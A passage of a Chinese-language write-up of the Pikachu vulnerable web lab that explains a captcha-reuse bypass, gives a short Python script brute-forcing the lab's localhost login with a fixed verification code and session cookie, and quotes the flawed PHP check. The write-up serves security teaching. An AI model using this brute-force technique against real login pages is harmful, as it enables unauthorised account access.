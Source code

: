 ```PHP

}
```

### 验证码绕过

#### On Server

##### 漏洞利用

每次访问目标页面，Web Server 都会通过 `http://127.0.0.1/pikachu/inc/showvcode.php` 接口更新用户需要输入的验证码。但由于验证码的更新需要通过触发这个接口才会进行，因此直接通过登陆接口 `http://127.0.0.1/pikachu/vul/burteforce/bf_server.php` 进行登陆则验证码不会更新，故可复用验证码进行爆破

爆破脚本如下

```Python
from http import HTTPStatus
import httpx

def guess_passwd() -> str:
    "get your passwd dictionary"
    return str()

def guess_username() -> str:
    "get your username dictionary"
    return str()

URL = "http://localhost/pikachu/vul/burteforce/bf_server.php"

php_cookie = "du3liq1mv90deoasfj0od4b0mo" #example
cookie: dict[str, str] = {
        "PHPSESSID": php_cookie,
}
user_name: str = guess_username()
passwd: str = guess_passwd()
data = {
    "username":user_name,
     "password":passwd,
    "vcode":"xnc8bk",
    "submit":"Login"
}

resp = httpx.post(URL,data=data,cookies=cookie)
if resp.status_code == HTTPStatus.OK and "login success" in resp.text:
    print("Success")
```

##### 漏洞代码解读

```PHP
if(isset($_POST['submit'])) {
    if (empty($_POST['username'])) {
        $html .= "<p class='notice'>用户名不能为空</p>";
    } else {
        if (empty($_POST['password'])) {
            $html .= "<p class='notice'>密码不能为空</p>";
        } else {
            if (empty($_POST['vcode'])) {
                $html .= "<p class='notice'>验证码不能为空哦！</p>";
            } else {
//              验证验证码是否正确
                if (strtolower($_POST['vcode']) != strtolower($_SESSION['vcode'])) {
                    $html .= "<p class='notice'>验证码输入错误哦！</p>";
                    //应该在验证完成后,销毁该$_SESSION['vcode']
```